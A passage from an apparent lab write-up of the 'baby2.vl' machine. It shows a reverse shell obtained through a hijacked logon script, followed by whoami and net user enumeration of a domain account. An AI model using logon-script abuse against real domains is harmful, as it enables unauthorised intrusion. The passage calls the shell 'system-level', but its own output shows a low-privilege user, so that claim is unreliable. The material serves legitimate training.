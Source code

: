 
`Microsoft Windows [Version 10.0.20348.1906] C:\Windows\system32>`

- You now have a **shell running as the user that executed `login.vbs`**.
    
- In this case, it’s a system-level shell since `login.vbs` is likely executed by a privileged user during logon.
    


## Step 10 – Current User & Privileges Analysis

```bash
whoami/all
```





**User:** `baby2\amelia.griffiths`

- Member of `Remote Desktop Users` locally.
    
- Global groups: `office`, `legacy`, `Domain Users`.
    
- Account is **active**, **never expires**, password **does not require change**.
    
- Uses a **logon script**: `\\baby2.vl\SYSVOL\baby2.vl\scripts\login.vbs` (this is how we got the reverse shell).
    

**Privileges:**

- `SeMachineAccountPrivilege` → Disabled (cannot add computers to domain).
    
- `SeChangeNotifyPrivilege` → Enabled (standard, allows directory traversal bypass).
    
- `SeIncreaseWorkingSetPrivilege` → Disabled (minor, performance-related).
    

```bash
C:\Windows\system32>net users amelia.griffiths
net users amelia.griffiths
User name                    Amelia.Griffiths
Full Name                    Amelia Griffiths
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            8/22/2023 12:18:21 PM
Password expires             Never
Password changeable          8/23/2023 12:18:21 PM
Password required            No
User may change password     Yes

Workstations allowed         All
Logon script                 \\baby2.vl\SYSVOL\baby2.vl\scripts\login.vbs
User profile                 
Home directory               \\baby2.vl\homes\Amelia.Griffiths
Last logon                   9/9/2025 2:05:31 PM

Logon hours allowed          All

Local Group Memberships      *Remote Desktop Users 
Global Group memberships     *office               *Domain Users         
                             *legacy               
The command completed successfully.


```
